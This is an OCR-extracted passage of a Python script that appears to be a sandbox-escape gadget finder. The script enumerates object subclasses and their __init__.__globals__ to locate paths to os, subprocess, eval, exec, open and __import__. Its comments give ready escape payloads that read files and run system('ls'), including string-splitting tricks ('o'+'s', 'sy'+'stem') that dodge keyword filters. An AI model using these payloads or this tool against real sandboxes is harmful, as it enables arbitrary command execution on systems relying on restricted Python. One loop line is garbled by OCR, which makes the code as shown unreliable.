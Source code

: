 ```python
                'threading': ['__builtins__'], 'timeit': ['timeit', 'sys', '__builtins__'], 'token': ['__builtins__'],
                'tokenize': ['sys', '__builtins__', 'open'], 'trace': ['os', 'sys', '__builtins__'],
                'traceback': ['sys', '__builtins__'], 'tracemalloc': ['os', '__builtins__'],
                'tty': ['os', '__builtins__'], 'turtle': ['sys', '__builtins__'], 'types': ['__builtins__'],
                'typing': ['sys', '__builtins__'], 'uu': ['os', 'sys', '__builtins__'],
                'uuid': ['os', 'sys', '__builtins__'], 'warnings': ['sys', '__builtins__'],
                'wave': ['sys', '__builtins__', 'open'], 'weakref': ['sys', '__builtins__'],
                'webbrowser': ['os', 'subprocess', 'sys', '__builtins__', 'open'], 'xdrlib': ['__builtins__'],
                'zipapp': ['os', 'sys', '__builtins__'], 'zipfile': ['os', 'importlib', 'sys', '__builtins__']}
target_modules = ['os', 'platform', 'subprocess', 'timeit', 'importlib', 'codecs', 'sys']
target_functions = ['__import__', '__builtins__', 'exec', 'eval', 'execfile', 'compile', 'file', 'open']
all_targets = list(set(list(find_modules.keys()) + target_modules + target_functions))
all_modules = list(set(list(find_modules.keys()) + target_modules))
subclasses = ().__class__.__bases__[0].__subclasses__()
sub_name = [s.__name__ for s in subclasses]
# The first traversal, such as:().__class__.__bases__[0].__subclasses__()[40]('./test.py').read()
print('----------1-----------')
for i, s in enumerate(sub_name):
    for f in all_targets:
        if f == s:
            if f in target_functions:
                print(i, f)
            elif f in all_modules:
                target = find_modules[f]
                sub_dict = subclasses[i].__dict__
                for t in target
t:
                    if t in sub_dict:
                        print(i, f, target)
print('----------2-----------')
# The second type of traversal, such as:().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
for i, sub in enumerate(subclasses):
    try:
        more = sub.__init__.__globals__
        for m in all_targets:
            if m in more:
                print(i, sub, m, find_modules.get(m))
    except Exception as e:
        pass
print('----------3-----------')
# The third type of traversal, such as:().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.values()[13]['eval']('__import__("os").system("ls")')
for i, sub in enumerate(subclasses):
    try:
        more = sub.__init__.__globals__.values()
        for j, v in enumerate(more):
            for f in all_targets:
                try:
                    if f in v:
                        if f in target_functions:
                            print(i, j, sub, f)
                        elif f in all_modules:
                            target = find_modules.get(f)
                            sub_dict = v[f].__dict__
                            for t in target:
                                if t in sub_dict:
```